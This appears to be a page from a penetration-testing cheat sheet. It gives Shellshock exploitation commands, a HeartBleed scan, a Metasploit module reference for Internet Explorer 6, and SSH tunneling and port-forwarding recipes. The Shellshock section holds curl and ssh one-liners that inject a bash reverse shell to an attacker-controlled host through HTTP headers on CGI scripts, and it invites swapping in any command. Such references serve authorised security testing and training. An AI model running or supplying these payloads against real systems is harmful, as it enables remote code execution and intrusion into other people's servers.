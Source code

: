 ```text
curl -x TARGETADDRESS -H "User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/HOSTIP/1234 0>&1" $ip/cgi-bin/status
```

Shellshock over SSH:

```text
ssh username@$ip '() { :;}; /bin/bash'
```

Exploit shellshock via curl, use -k switch to force curl to bypass any SSL warnings. Replace the bash command with anything.

```text
curl http://192.168.123.123/path/to/cgi- bin/name_of_vuln_cgi -H "custom:() { ignored; }; /bin/bash -i >& /dev/tcp/[LHOST]/[LPORT] 0>&1 "
```

### HeartBleed

Test web server

```text
sslscan $ip:443
```

### Internet explorer 6

Vulnerable to msf exploit\(ms10\_002\_aurora\)

## Tunneling your traffic through another host

* ```text
  sshuttle -r root@$ip 10.10.10.0/24
  ```

### Port forwarding

Simplest type of traffic redirection, consists on accepting traffic from one address and port port and redirecting it to another address and port.

It can be useful to bypass address and port based filters. Rinetd is a linux tool to do it.

### Local port forwarding

Creates an encrypted tunnel through two machines and have traffic redirected to a final host and port, similar to port forwarding This is useful when you are trying to connect from your machine to a destination using a gateway. The syntax is:

```text
ssh gateway_host -L local_port:remote_host:remote_port
```

You can later create a SSH session to the local port and have and SSH tunneled to destination:

```text
ssh hop_machine -L 31337:banned_machine:22
ssh -p 31337 localhost
```
